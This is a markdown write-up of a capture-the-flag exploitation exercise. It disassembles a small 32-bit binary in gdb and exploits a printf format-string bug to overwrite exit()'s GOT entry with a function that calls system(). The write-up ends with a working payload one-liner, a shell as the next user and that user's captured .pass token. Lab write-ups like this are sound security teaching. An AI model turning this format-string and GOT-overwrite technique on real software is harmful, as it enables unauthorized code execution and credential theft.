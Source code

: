 # Level5

## What we have

```bash
GCC stack protector support:            Enabled
Strict user copy checks:                Disabled
Restrict /dev/mem access:               Enabled
Restrict /dev/kmem access:              Enabled
grsecurity / PaX: No GRKERNSEC
Kernel Heap Hardening: No KERNHEAP
System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level5/level5
```

## Testing the program

```bash
$ ./level5
salut
salut
```

## Learning more


```bash
info functions
All defined functions:

Non-debugging symbols:
[...]
0x080484a4  o
0x080484c2  n
0x08048504  main
[...]
```

We have three functions : main, n and o. 

```bash
disas main
Dump of assembler code for function main:
   0x08048504 <+0>:	push   %ebp
   0x08048505 <+1>:	mov    %esp,%ebp
   0x08048507 <+3>:	and    $0xfffffff0,%esp
   0x0804850a <+6>:	call   0x80484c2 <n>
   0x0804850f <+11>:	leave  
   0x08048510 <+12>:	ret    
End of assembler dump.
```

There is a call to a function 'n'.

```bash
(gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:	push   %ebp
   0x080484c3 <+1>:	mov    %esp,%ebp
   0x080484c5 <+3>:	sub    $0x218,%esp
   0x080484cb <+9>:	mov    0x8049848,%eax
   0x080484d0 <+14>:	mov    %eax,0x8(%esp)
   0x080484d4 <+18>:	movl   $0x200,0x4(%esp)
   0x080484dc <+26>:	lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:	mov    %eax,(%esp)
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:	lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:	mov    %eax,(%esp)
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
   0x080484f8 <+54>:	movl   $0x1,(%esp)
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
End of assembler dump.
```

As we can see the function 'o' is noit being called. 


```bash
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x18,%esp
   0x080484aa <+6>:	movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
   0x080484b6 <+18>:	movl   $0x1,(%esp)
   0x080484bd <+25>:	call   0x8048390 <_exit@plt>
End of assembler dump.
```

The 'o' function does a call to system. 


## Getting access to the .pass

We need to use printf() function into calling the o() function using a format string attack.
The issue is that both the n() and o() function never return, they exit directly. 
Therefore we cannot overwriet n() so that the return calls o(). 

Instead we can replace the address of exit in the GOT with the address of o(). 

The GOT (Global Offset Table) is a table of addresses which contains the addresses of the shared library functions (printf, exit, fgets, ...). 

Also GOT is writable and whenever the function exit() is called (GOT entry of the function is looked up first) the program will jump to that address.
So if we replace the address of exit() in the GOT with the address of o() (with format strings), whenever that function will be called, the program will go to the modified GOT entry.

1. First : find the address of exit() and of o() in the GOT. 

```bash
$ objdump -R level5 | grep exit
08049828 R_386_JUMP_SLOT   _exit
08049838 R_386_JUMP_SLOT   exit
```

```bash
info function o
All functions matching regular expression "o":

Non-debugging symbols:
0x080483c0  __gmon_start__
0x080483c0  __gmon_start__@plt
0x08048420  __do_global_dtors_aux
0x080484a4  o
0x080485a0  __do_global_ctors_aux
(gdb) 
```

Now we have the address of exit(): 0x8049838 and the address of o(): 0x080484a4.

2. Print the memory until we reach exit

Like in previous levels, we are going to use printf to find where is the exit()

```bash
$ python -c 'print "aaaa" + " %x" * 10' > /tmp/exploit
$ cat /tmp/exploit - | ./level5
cat /tmp/exploit - | ./level5
aaaa 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825 78252078 20782520 25207825 78252078
```

The address of exit() is at the 4th position (61616161).

3. Final Payload

```plaintext
    • The address of exit(), 0x8049838 converted to little endian --> \x38\x98\x04\x08 
    • o() address in decimal : 0x080484a4 --> 134513828 - 4 bytes (because of the exit address) = 134513824
    • %4n : since the address of exit is at the 4th position
```

```bash
$ python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/exploit
$ cat /tmp/exploit - | ./level5
        512
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```